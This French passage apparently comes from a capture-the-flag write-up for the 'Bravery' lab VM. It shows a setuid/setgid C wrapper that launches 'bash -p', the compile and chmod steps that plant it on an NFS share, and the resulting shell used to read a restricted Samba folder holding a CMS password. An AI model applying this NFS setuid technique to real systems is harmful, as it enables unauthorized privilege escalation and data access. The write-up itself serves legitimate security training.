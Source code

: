 L'utilisateur David a l'UID et le GID 1000. Je créé le petit code C que voici :  

```c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>

int main(void) {
  setreuid(1000, 1000);
  setregid(1000, 1000);
  system("bash -p");
  return 0;
}
```

Je compile, je met les bits set(u|g)id et je met sur le partage NFS :  

```bash
gcc -o setuid_david setuid_david.c -static
sudo chown 1000:1000 setuid_david
sudo chmod u+s setuid_david
sudo chmod g+s setuid_david
sudo mv setuid_david /mnt/bravery/
```

Côté VM tout a marché comme sur des roulettes :  

```plain
bash-4.2$ ls -l /var/nfsshare/setuid_david
-rwsr-sr-x. 1 david david 3536680 Dec 13 19:31 /var/nfsshare/setuid_david
bash-4.2$ /var/nfsshare/setuid_david
[david@bravery /]$ id
uid=1000(david) gid=1000(david) groups=1000(david),48(apache) context=system_u:system_r:httpd_t:s0
```

On peut aussi jeter un oeil au partage qui nous était restreint :  

```plain
[david@bravery ~]$ ls -l /samba/secured/
total 12
-rw-r--r--. 1 root root 376 Jun 16  2018 david.txt
-rw-r--r--. 1 root root 398 Jul 23  2018 genevieve.txt
-rw-r--r--. 1 root root 323 Jul 23  2018 README.txt
```

Je vous met le contenu du *README.txt* mais je ne suis pas sûr qu'il soit d'un quelconque intérêt :  

```plain
README FOR THE USE OF THE BRAVERY MACHINE:

Your use of the BRAVERY machine is subject to the following conditions:

1. You are a permanent staff in Good Tech Inc.
2. Your rank is HEAD and above.
3. You have obtained your BRAVERY badges.

For more enquiries, please log into the CMS using the correct magic word: goodtech.
```

